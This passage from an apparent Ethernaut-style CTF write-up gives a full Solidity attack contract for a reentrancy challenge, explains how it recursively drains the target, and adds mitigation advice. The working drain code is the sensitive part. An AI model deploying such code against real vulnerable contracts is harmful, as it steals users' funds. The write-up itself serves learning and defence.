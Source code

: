 Find my attack contract below -

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

interface IReentrancy {
    function donate(address) external payable;
    function withdraw(uint) external;
}

contract hack {
    IReentrancy private immutable target;

    constructor (address _target) {
        target = IReentrancy(_target);
    }

    function attack () external payable {
        target.donate{value: 1e18}(address(this));
        target.withdraw(1e18);

        require (address(target).balance == 0, "target balance > 0");
        selfdestruct(payable(msg.sender));
    }

    receive() external payable {
        uint amount = min (1e18, address(target).balance);
        if (amount>0) {
            target.withdraw(amount);
        }
        
    }

    function min (uint x, uint y) private pure returns(uint) {
        return (x>y? y : x);
    }
}
```

The attack function first sends some ether to the challenge contract in order to have some balance against the Hack contract's address in the balances mapping using the `donate()` function. The `withdraw()` function is then called, which will invoke the receive function, which again calls the withdraw function. The `min()` function is used to determine the minimum amount that can be withdrwan from the contract. This recursive calling continues until the balance of the challenge contract is 0. Notice, I also used the selfdestruct function to return all the ether I spent to my wallet again.

Re-entrancy is one of the most simple and popular attacks till date. To prevent re-entrancy we should always update the balances and state variables before sending out ether. Other techniques like invoking a lock of the contract untill a particular transaction is completed can also be useful.

___
## Level 11 [Elevator]
